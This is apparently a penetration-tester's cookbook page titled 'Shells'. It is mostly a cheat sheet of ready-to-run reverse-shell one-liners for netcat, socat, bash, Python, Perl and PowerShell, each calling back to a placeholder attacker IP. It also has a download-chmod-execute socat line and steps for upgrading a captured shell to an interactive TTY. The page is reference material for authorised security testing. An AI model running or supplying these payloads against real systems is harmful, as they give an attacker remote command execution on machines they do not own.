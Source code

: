 ```yaml
---
layout: default
title: Shells
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References

[Reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Upgrading shells](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

# Reverse Shells
## Netcat
```csharp
// On local machine.
nc -c /bin/bash -lvnp 4444                
rlwrap nc -lvnp 4444 // Listener for Windows.

// On remote machine.
nc 10.x.x.x 4444
sh -c nc 10.x.x.x 4444 -e /bin/bash
cmd.exe /c \\10.x.x.x\Shared\nc.exe -e cmd.exe 10.x.x.x 4444 // Run via Samba share.
```

## Socat
```csharp
// Listener on local machine.
socat file:`tty`,raw,echo=0 tcp-listen:4444

// On remote machine.
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.x.x.x:4444
```

```csharp
// Credit to ropnop's blog. Download, chmod and execute one-liner.
wget -q https://path/to/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.x.x.x:4444
```

## Bash
```csharp
// On remote machine.
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

// On remote machine.
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 6666 > /tmp/f
```

## Python
```csharp
// On remote machine.
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.x.x.x",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Perl
```csharp
// On remote machine.
perl -e 'use Socket;$i="10.x.x.x";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PowerShell
```csharp
// On remote machine.
cmd.exe /c powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.x.x.x',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Bind Shells

## Upgrading dumb shells to interactive
After a callback to your machine to shell is likely to be restricted and not interactive.

```csharp
// Spawn an interactive shell.
python3 -c "import pty; pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo
fg
reset

// Find the row/column values of the current window.
stty -a

// Resize the shell to match the current window to prevent nasty wrapping.
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```